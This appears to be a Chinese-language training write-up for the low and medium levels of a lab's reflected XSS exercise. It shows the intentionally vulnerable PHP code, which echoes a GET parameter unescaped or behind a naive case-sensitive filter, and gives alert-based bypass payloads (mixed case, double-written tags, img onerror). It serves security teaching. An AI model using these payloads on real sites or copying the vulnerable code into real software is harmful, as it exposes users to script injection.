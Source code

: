 <center>XSS Reflected反射型xss</center>





[toc]









## XSS Reflected反射型xss

> XSS Reflected反射型xss



















### 1. low

> 低级

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

```

> 没有任何防护

```shell
http://192.168.0.111:8000/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#
```









### 2. medium

> 中级
>
> 代码

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
```

> str_replace: 字符串替换。 区分大小写。
>
> [runoob](https://www.runoob.com/php/func-string-str-replace.html)

> 攻击： 

```shell
# 大写
<Script>alert(/xss/)</script>

# 双写
<scr<script>ipt>alert(/xss/)</script>

# 其他元素
<img src=1 onerror=alert(/xss/)>
```

